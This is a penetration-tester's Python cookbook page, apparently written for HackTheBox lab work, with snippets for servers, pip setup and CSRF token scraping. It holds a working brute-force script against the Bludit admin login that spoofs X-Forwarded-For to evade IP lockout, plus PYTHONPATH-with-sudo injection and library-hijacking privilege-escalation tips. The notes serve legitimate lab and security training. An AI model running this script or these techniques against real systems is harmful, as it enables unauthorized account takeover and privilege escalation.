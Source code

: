 ```yaml
---
layout: default
title: Python
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Start a local http server
```python
python3 -m http.server 
python3 -m http.server [port]
python3 -m http.server [--directory IF-NOT-LOCAL] [port]
```

## Start a local ftp server
*Install using `sudo apt install python3-pyftpdlib`.*

```
python3 -m pyftpdlib
```

## Installing Python 3.8 and Pip on Windows
Go to `python.org` and download the latest release for Windows. Download and install, **making sure to check the `add to path` checkbox during installation**. Check the installation by testing the Python version at the command line:
```python
python --version
```

To install Pip, go to `https://bootstrap.pypa.io/get-pip.py` to download the `get-pip.py` file. To install, run:
```python
python get-pip.py
```

One-liner (credit Heath Adams' Windows PrivEsc Udemy course):
```
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
```

After installation, check the Pip version:
```python
pip --version
```

## Pip3 update all packages
Kept getting a `missing required parameter 'digestmod'` error when trying to run `crackmapexec` and `impacket`. This seems to be a Python3.8 issue, resolved by updating everything using this command from the HTB forum:
```
pip3 list --outdated --format=freeze | grep -v '^-e' | cut -d = -f 1 | xargs -n1 pip3 install -U
```

## Extracting a CSRF token
```python
import requests
from bs4 import BeautifulSoup

session = requests.session()
page = session.get(url)
soup = BeautifulSoup(page.text, features='lxml')
csrf = soup.find('input', {'name': 'tokenCSRF'})['value']
```

## Bypassing Bludit admin login lockout
```python
import requests
from bs4 import BeautifulSoup

URL='http://10.10.10.191/admin/login/'

def go(users, passwords):
	for user in users:
		for password in passwords:
			session = requests.session()
			login_page = session.get(URL)
			if login_page.status_code == 200:
				soup = BeautifulSoup(login_page.text, features='lxml')
				csrf = soup.find('input', {'name': 'tokenCSRF'})['value']

				headers = {
					'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
					'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
					'Content-Type': 'application/x-www-form-urlencoded',
					'Cookie': 'BLUDIT-KEY=c59jcu33ghe4rbjb3gimngdau2',
					'X-Forwarded-For': f'{user}{password}', # Setting the X-Forwarded-For to a unique value each time bypasses IP blocking
				}

				params = {
					'tokenCSRF': csrf,
					'username': user,
					'password': password,
					'save': ''
				}

				login_result = session.post(URL, headers = headers, data = params)
				if login_result.status_code == 200:
					if 'location' in login_result.headers:
						location = login_result.headers['location']
						print(f'location: {location}')
						if '/admin/dashboard' in location:
							print(f'[*] {user}:{password} - success!')
							return
					else:
						print(f'[ ] {user}:{password} csrf: {csrf}')
				else:
					print(f'Request to login failed: {login_result.status_code}')
					return
			else:
				print(f'Request for login page failed: {login_page.status_code}')
				return

def getItemsFrom(path):
	return list(filter(None, open(path, 'r').read().split('\n')))


if __name__ == '__main__':
	users = getItemsFrom('/home/kali/HTB/Blunder/wordlists/user-list')
	passwords = getItemsFrom('/home/kali/HTB/Blunder/wordlists/cewl-wordlist')	
	go(users, passwords)
```

## Pretty print json
```
cat file.json | python3 -m json.tool > pretty-printed.json
```

## Include PYTHONPATH in Call (PYTHONPATH Exploit)
You can temporarily include a directory as part of the python path by calling your script using the `PYTHONPATH` variable. This means you can potentially inject a rogue `.py` script into the process by adding the path containing the rogue script to the `PYTHONPATH` variable. For example:
```bash
// Call a python script.
PYTHONPATH=/path/to/script-to-include.py python3 some-python-script.py

// Or non-python scripts using sudo providing an elevated context.
sudo PYTHONPATH=/path/to/script-to-include.py /path/to/shell-script.sh
```

https://stackoverflow.com/questions/4580101/python-add-pythonpath-during-command-line-module-run/4580120

## Library Hijacking
It may be possible to inject a rogue python library ahead of the official one, depending on the path. If you can write to a folder earlier in the path than the 'official' library, you could inject your own library instead. To check the path, you can use: 
```python
python -c 'import sys; print(sys.path)'
```

https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7

## Creating an all-in-one Executable from a Python Script
Do this on the machine architecture you want to created, so if you want a Windows executable, use a Windows machine to build it, such as `CommandoVM`.
```
// Install pyinstaller.
pip3 install pyinstaller

// Build the executable, the file will be available in the dist folder
pyinstaller --onefile source-script.py
```